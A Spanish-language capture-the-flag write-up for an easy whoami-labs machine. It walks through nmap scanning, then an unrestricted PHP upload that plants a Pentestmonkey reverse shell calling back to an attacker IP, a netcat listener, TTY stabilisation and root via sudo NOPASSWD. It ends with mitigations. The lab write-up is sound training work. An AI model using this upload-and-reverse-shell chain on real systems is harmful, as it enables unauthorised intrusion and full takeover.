## Información General

| Campo          | Valor       |
| -------------- | ----------- |
| **Plataforma** | whoami-labs |
| **Dificultad** | Fácil       |
| **Autor**      | elc0ket     |

---

## Técnicas Usadas

- Escaneo de puertos con Nmap
- Enumeración de servicios web (puertos 80, 8080, 8989)
- Subida de archivo malicioso (File Upload sin restricciones)
- Reverse Shell con PHP (Pentestmonkey)
- Tratamiento de TTY para shell estable
- Escalada de privilegios mediante `sudo -l` (NOPASSWD: ALL)

---

## Reconocimiento

### Escaneo de puertos

```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



### Detección de versiones y scripts

```bash
nmap -p 80,8080,8989 -sC -sV -oN allports 172.17.0.2
```



---

## Enumeración Web

### Puerto 80 — `http://172.17.0.2`

Página por defecto de Apache. Sin información relevante en el código fuente.



### Puerto 8080 — `http://172.17.0.2:8080`

Web corporativa de **Transportadora Rápida S.A.**

Al navegar a `/contacto.html` se encuentra un formulario con funcionalidad de **subida de archivos**.



### Puerto 8989 — `http://172.17.0.2:8989`

Panel Administrativo de la empresa. Interfaz de gestión interna.



---

## Explotación

### 1. Verificación del File Upload

Se crea un archivo de prueba para confirmar que la subida no tiene filtros:

```bash
echo "TEST" > test.php
```

Se sube a través de `http://172.17.0.2:8080/contacto.html` → **"Mensaje Enviado Exitosamente"**.

El servidor acepta archivos `.php` sin restricciones.

### 2. Generación de la Reverse Shell

Se usa la reverse shell PHP de Pentestmonkey, configurando la IP atacante y el puerto:

```bash
nano shell.php
# IP: 192.168.241.128  Puerto: 1234
```



### 3. Escucha con Netcat

```bash
nc -lvnp 1234
```

### 4. Ejecución de la Reverse Shell

Se sube `shell.php` vía el formulario 



Clic `Enviamos mensaje`

```
http://172.17.0.2:8080/upload.php
```



Acedemos `Ver archivo`



### 5. Tratamiento de la TTY

Para obtener una shell estable e interactiva:

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

---

## Escalada de Privilegios

### Enumeración de sudo


```bash
www-data@5c71f469e858:/$ sudo -l
```



El usuario `www-data` puede ejecutar **cualquier comando como root sin contraseña**.

### Escalada a root

```bash
sudo su
```

```
root@5c71f469e858:/# whoami
```



---

## Flag

```bash
root@5c71f469e858:~# cat /root/flag.txt
```




---

## Lecciones Aprendidas

### Vulnerabilidades explotadas

|Vulnerabilidad|Impacto|Descripción|
|---|---|---|
|**File Upload sin restricciones**|Crítico|El formulario en `/contacto.html` acepta archivos `.php` ejecutables, permitiendo subir una webshell|
|**Sudo mal configurado (NOPASSWD: ALL)**|Crítico|`www-data` puede ejecutar cualquier comando como root sin autenticación|

### Mitigaciones recomendadas

- **File Upload:** Validar extensiones en servidor (whitelist), almacenar fuera del webroot, deshabilitar ejecución PHP en la carpeta de uploads.
- **Sudo:** Eliminar entradas `NOPASSWD: ALL`. Si se necesitan permisos específicos, limitar a binarios concretos con la ruta absoluta.
- **Principio de mínimo privilegio:** El servidor web nunca debería tener capacidad de escalar a root.